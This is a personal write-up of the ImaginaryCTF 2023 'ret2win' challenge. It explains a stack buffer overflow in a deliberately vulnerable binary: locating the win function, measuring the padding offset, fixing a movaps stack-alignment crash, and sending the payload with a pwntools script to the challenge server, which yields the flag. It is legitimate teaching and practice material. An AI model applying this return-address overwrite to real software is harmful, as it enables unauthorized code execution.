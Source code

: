 ```yaml
---
title: ImaginaryCTF 2023 - ret2win
description: Writeup for ret2win pwn challenge
date: 2023-12-18
tldr: Can you overflow the buffer and get the flag?
draft: false
tags: ["ctf", "writeup", "pwn"]
---
```


# ret2win

Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

Attachments
https://imaginaryctf.org/r/BoCID#vuln https://imaginaryctf.org/r/73iLJ#vuln.c nc ret2win.chal.imaginaryctf.org 1337


# lets find where the entrypoint to the function win is 

0040117a

# RIP

padding until we overwrite stack pointer

123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687888990919293949596979899100


setting a breakpointin edb at the ret on the end of main we see that this leads to 

return to `0x3434343334323431`


# 

hardening-check vuln
vuln:
 Position Independent Executable: no, normal executable!
 Stack protected: no, not found!
 Fortify Source functions: no, only unprotected functions found!
 Read-only relocations: yes
 Immediate binding: no, not found!
 Stack clash protection: unknown, no -fstack-clash-protection instructions found
 Control flow integrity: yes


## Executing the win function


doing just `./vuln <<< $(python -c "print(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz\x11@\x00\x00\x00\x00\x00'.decode())"`

we see 

```
==3974== Process terminating with default action of signal 11 (SIGSEGV)
==3974==  General Protection Fault
==3974==    at 0x48B3603: do_system (system.c:148)
==3974==    by 0x401195: win (in /mnt/ctfa/ret2win/vuln)
```

most likely we are having problems with stack aligment this exploit works but segfaults on `movaps` instruction when executing the `libc` `system`

https://ropemporium.com/guide.html

> The MOVAPS issue. If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

so lets just skip this initial push to `ebp` by adding 8 to the adress skipping some initial instructions of the win function

see `pwn_tool.py` we successfully get to the win function wit the following payload but still a segfault happens - a different one this time.

```python
#!/usr/bin/env python3
from pwn import *

#--------Setup--------#

context(arch="amd64", os="linux")
elf = ELF("vuln", checksec=False)
print(elf)
print(elf.sym)
ret2win = elf.sym["win"]
print(ret2win)
pattern = cyclic(1024)
print(pattern)

offset = len("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")

log.info(f"{offset = }")

#--------ret2text--------#

ret2win = elf.sym["win"]
print(hex(ret2win+8))
payload = flat(
    b"\x00"*offset,
    p64(ret2win+8),
)
print(payload)

p = elf.process()

p.sendline(payload)
s = p.recvline()
print(s)
conn = remote('ret2win.chal.imaginaryctf.org',1337)
s = conn.recvline()
print(s)
conn.sendline(payload)
s = conn.recvline()
print(s)

```


`ictf{r3turn_0f_th3_k1ng?}`